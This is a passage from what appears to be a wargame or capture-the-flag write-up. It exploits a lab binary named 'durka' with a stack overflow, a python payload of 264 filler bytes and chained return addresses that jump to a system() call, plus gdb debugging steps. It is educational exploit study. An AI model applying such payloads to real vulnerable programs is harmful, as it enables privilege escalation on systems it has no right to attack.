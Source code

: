 <p>Let’s write down the several interesting addresses first. <br>
<code>agonistic_heaven : 0x08048590</code> <br>
<code>flugeldufel      : 0x080485b0</code> <br>
<code>call   8048400 &lt;system@plt&gt;: 0x80485b8</code></p>

<p>You may wonder why we don’t want to use the address of the system call <code>system@plt</code> itself. The reason is that <code>bash</code> will ignore any <code>null</code> bytes as argument, so the <code>00</code> byte in address <code>0x08048400</code> will be ignored, and that is a real pain in the ass.</p>

<p>So chain up the return addresses like this: <br>
<code>$(python -c 'print "A"*264+"\x90\x85\x04\x08\xb8\x85\x04\x08"')</code> <br>
And let’s try run this input inside <code>gdb</code> and examine the stack at each function.  <br>
Open up your <code>gdb</code> debugger with <strong>durka</strong>. <br>
<code>user@host:/your-dir$ gdb durka</code> <br>
Don’t forget to clear out the <code>LINES</code> and <code>COLUMNS</code> environment variables, or otherwise your exploit may not work outside the <code>gdb</code>.</p>



<pre class="prettyprint"><code class=" hljs mel">(gdb) unset <span class="hljs-keyword">env</span> LINES
(gdb) unset <span class="hljs-keyword">env</span> COLUMNS
(gdb) show <span class="hljs-keyword">env</span></code></pre>

<p>Set up several break points so we can examine the stack.</p>



<pre class="prettyprint"><code class="language-gdb hljs livecodeserver"> (gdb) b f
Breakpoint <span class="hljs-number">1</span> <span class="hljs-keyword">at</span> <span class="hljs-number">0x8048570</span>: <span class="hljs-built_in">file</span> durka.c, <span class="hljs-built_in">line</span> <span class="hljs-number">11.</span>
(gdb) b agonistic_heaven
Breakpoint <span class="hljs-number">2</span> <span class="hljs-keyword">at</span> <span class="hljs-number">0x8048590</span>: <span class="hljs-built_in">file</span> durka.c, <span class="hljs-built_in">line</span> <span class="hljs-number">17.</span>
(gdb) b flugeldufel
Breakpoint <span class="hljs-number">3</span> <span class="hljs-keyword">at</span> <span class="hljs-number">0x80485b0</span>: <span class="hljs-built_in">file</span> durka.c, <span class="hljs-built_in">line</span> <span class="hljs-number">24.</span></code></pre>

<p>run the program with the designed input:</p>



<pre class="prettyprint"><code class="language-gdb hljs tex">run <span class="hljs-formula">$(python -c 'print "A"*264+"<span class="hljs-command">\x</span>90<span class="hljs-command">\x</span>85<span class="hljs-command">\x</span>04<span class="hljs-command">\x</span>08<span class="hljs-command">\xb</span>8<span class="hljs-command">\x</span>85<span class="hljs-command">\x</span>04<span class="hljs-command">\x</span>08"')
Starting program: /c0re/durka $</span>(python -c 'print "A"*264+"<span class="hljs-command">\x</span>90<span class="hljs-command">\x</span>85<span class="hljs-command">\x</span>04<span class="hljs-command">\x</span>08<span class="hljs-command">\xb</span>8<span class="hljs-command">\x</span>85<span class="hljs-command">\x</span>04<span class="hljs-command">\x</span>08"')
running as uid = 1030, euid = 1030
